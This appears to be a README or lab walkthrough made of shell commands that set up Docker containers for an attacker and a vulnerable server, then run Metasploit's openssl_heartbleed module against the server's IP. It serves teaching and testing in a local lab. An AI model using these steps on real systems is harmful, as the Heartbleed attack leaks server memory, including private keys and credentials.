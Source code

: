 # Start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash



docker build -t server .

docker run -d -p 8443:443 server

docker run --rm -it -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit


docker ps

docker inspect <container-id> | grep IPAddress

msfconsole -q

use auxiliary/scanner/ssl/openssl_heartbleed

set RHOSTS <site-ip>

set VERBOSE true

exploit